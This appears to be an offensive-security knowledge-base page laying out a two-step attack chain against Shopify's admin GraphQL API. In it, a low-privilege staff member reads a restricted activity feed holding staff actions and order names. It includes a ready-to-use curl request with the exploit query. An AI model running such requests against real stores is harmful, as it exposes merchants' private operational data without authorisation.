

# Shopify GraphQL Access Control Bypass to View Restricted ActivityFeed

Multi-stage attack chain demonstrating a complete attack workflow exploiting improper access control in Shopify's admin GraphQL API to disclose sensitive store activity logs.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses browser and curl or similar for HTTP requests)

### Target Environment

- Shopify admin interface
- GraphQL API endpoint at /admin/api/graphql
- Authenticated session as low-privilege staff member

### Initial Access Requirements

- Valid Shopify staff credentials with no explicit 'Home' permissions
- Network access to the store's admin domain (https://{store-name}.myshopify.com/admin)
- No prior elevated access needed

## Detailed Attack Procedures

### Step 1: Attempt Direct Access to Activity Feed
procedure: [[procedures/Bypass-Shopify-GraphQL-Access-Control]]

**Objective**: Verify that direct UI access to the activity feed is denied for low-privilege staff, confirming the restriction is in place at the UI level.

**Instructions**: Log in to the Shopify admin as a staff member with no permissions. Navigate to the activity feed page using a browser.

**Expected Output**: An access denied message displayed on the page.

**Success Indicators**:
- Page loads with "Access denied" or similar error
- Confirms UI-level restriction is enforced

### Step 2: Query GraphQL Endpoint for ActivityFeed
procedure: [[procedures/Bypass-Shopify-GraphQL-Access-Control]]

**Objective**: Bypass UI restrictions by directly querying the GraphQL API to fetch the restricted ActivityFeed data, exploiting missing backend permission checks.

**Instructions**: Use a tool like curl to send a POST request to the GraphQL endpoint with an authenticated session. Include the query for staffMember.privateData.activityFeed with variables for pagination.

Execute the following using [[commands/shopify-graphql-activityfeed-query]]:

```bash
curl -X POST 'https://{store-name}.myshopify.com/admin/api/graphql.json' \
  -H 'Content-Type: application/json' \
  -H 'X-Shopify-Access-Token: {staff-access-token}' \
  -d '{"query": "query ActivityFeed($first: Int!) { staffMember { privateData { activityFeed(first: $first) { edges { node { ... on Activity { author { ... on StaffMember { name } } createdAt messages(first: 10) { edges { node { text } } } topic { ... on ActivityTopic { title } } attributed { ... on AttributedActivity { ... on OrderActivity { order { name } } } } } } } } } } }", "variables": {"first": 20}}'
```

**Expected Output**: JSON response containing ActivityFeed edges with details like authors, timestamps, messages, topics, and attributed actions.

**Success Indicators**:
- Response includes sensitive activity data (e.g., order names, staff actions)
- Data retrieval succeeds despite lack of 'Home' permissions

## Attack Chain Summary

### Key Achievements

1. Confirmed UI access denial for restricted endpoint
2. Bypassed access controls via GraphQL API to disclose operational logs
3. Exposed potential sensitive information like staff actions and order details to unauthorized users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]]

### MITRE ATT&CK Tactics

- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
